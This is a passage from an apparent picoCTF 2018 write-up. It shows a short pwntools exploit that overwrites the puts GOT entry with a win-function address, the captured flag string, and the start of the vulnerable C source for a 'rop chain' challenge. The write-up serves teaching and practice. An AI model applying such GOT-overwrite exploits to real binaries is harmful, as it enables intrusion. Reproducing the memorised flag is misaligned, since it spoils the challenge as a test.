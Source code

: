 ```python
HOST = '2018shell2.picoctf.com'
PORT = 23731

win_addr = '0x0804854b'
puts_got_addr = '0x0804a00c'

def exploit(r):
    addr = puts_got_addr
    val = win_addr

    r.sendlineafter('value?\n',addr) #takes str type
    r.sendlineafter('\n',val)  #takes str type
    r.interactive()
    return
```

```bash
picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_a8321d81}
```

## rop chain
Source
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFSIZE 16

bool win1 = false;
bool win2 = false;


void win_function1() {
  win1 = true;
}

void win_function2(unsigned int arg_check1) {
  if (win1 && arg_check1 == 0xBAAAAAAD) {
    win2 = true;
  }
  else if (win1) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void flag(unsigned int arg_check2) {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
```
